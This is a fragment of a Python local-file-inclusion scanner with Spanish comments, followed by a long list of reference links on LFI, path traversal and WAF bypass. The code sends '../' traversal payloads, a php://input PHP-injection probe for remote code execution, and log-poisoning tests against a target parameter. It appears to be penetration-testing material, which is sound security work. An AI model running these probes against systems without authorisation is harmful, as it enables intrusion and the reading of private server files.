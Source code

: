 ```python
  
    def _can_access_file(self, file_path):
        """
        Verifica si se puede acceder a un archivo
        """
        payload = '../' * 6 + file_path.lstrip('/')
  
        try:
            response = self.session.get(
                self.base_url,
                params={self.param: payload},
                timeout=5
            )
            return response.status_code == 200 and len(response.text) > 50
        except:
            return False
  
    def _test_php_input_rce(self):
        """
        Prueba RCE via php://input
        """
        try:
            response = self.session.post(
                self.base_url,
                params={self.param: 'php://input'},
                data='<?php echo "LFI_RCE_TEST"; ?>',
                headers={'Content-Type': 'application/x-www-form-urlencoded'},
                timeout=10
            )
            return 'LFI_RCE_TEST' in response.text
        except:
            return False
  
    def comprehensive_scan(self):
        """
        Escaneo completo de LFI con todas las técnicas
        """
        print("[*] Iniciando escaneo comprehensivo de LFI...")
  
        results = {
            'basic_lfi': [],
            'php_wrappers': [],
            'log_poisoning': [],
            'race_conditions': []
        }
  
        # Test LFI básico
        print("[*] Probando LFI básico en archivos Linux...")
        results['basic_lfi'].extend(self.test_basic_lfi(self.linux_files))
  
        print("[*] Probando LFI básico en archivos Windows...")  
        results['basic_lfi'].extend(self.test_basic_lfi(self.windows_files))
  
        # Test PHP wrappers
        print("[*] Probando PHP wrappers...")
        results['php_wrappers'] = self.test_php_wrappers()
  
        # Test log poisoning
        print("[*] Probando log poisoning...")
        results['log_poisoning'] = self.test_log_poisoning()
  
        # Test race conditions (requiere endpoint de subida)
        # results['race_conditions'] = self.race_condition_exploit('/upload.php')
```

[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/